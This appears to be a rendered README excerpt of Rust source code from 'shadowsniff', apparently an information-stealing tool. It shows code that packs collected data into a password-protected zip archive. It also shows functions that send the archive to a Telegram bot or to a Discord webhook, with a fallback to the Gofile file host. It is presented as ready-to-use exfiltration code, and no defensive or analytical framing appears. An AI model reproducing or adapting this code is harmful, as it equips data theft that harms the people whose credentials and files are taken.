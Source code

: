 ```rust
    let zip = ZipArchive::default()
        .add_folder_content(&fs, &out)
        .password("shadowsniff-output")
        .comment(displayed_collector);
  
    
    // 1. write to the file `output.zip`
    //
    let zip = zip.create();
    let out = Path::new("output.zip");
    let _ = StorageFileSystem.write_file(&out, &zip);
    
    // 2. or upload, like call upload_telegram
    //
    // let _ = upload_telegram(env!("CHAT_ID"), env!("BOT_TOKEN"), Arc::from("log.zip"), zip);
  
    0
}
```

Upload to the telegram
```rust
use collector::Collector;
use sender::{LogSenderExt, SendError};
use zip::ZipArchive;
use sender::telegram_bot::TelegramBotSender;

pub fn upload_telegram<C>(chat_id: &str, bot: &str, log_filename: Arc<str>, zip: ZipArchive, collector: &C) -> Result<(), SendError>
where
    C: Collector
{
    TelegramBotSender::new(Arc::from(chat_id), Arc::from(bot))
        .send_archive(log_filename, zip, collector)
}
```

Uploads a log to a Discord webhook, with a fallback to Gofile if the archive exceeds Discord's file size limit.
```rust
use collector::Collector;
use sender::{LogSenderExt, SendError};
use sender::discord_webhook::DiscordWebhookSender;
use sender::gofile::GofileUploader;
use sender::size_fallback::SizeFallbackSender;
use zip::ZipArchive;

pub fn upload_discord<C>(webhook: &str, log_filename: Arc<str>, zip: ZipArchive, collector: &C) -> Result<(), SendError>
where 
    C: Collector
{
    let discord = DiscordWebhookSender::new(Arc::from(webhook));
    let gofile = GofileUploader::new(discord.clone());
    
    SizeFallbackSender::new(discord, gofile)
        .send_archive(log_filename, zip, collector)
}
```
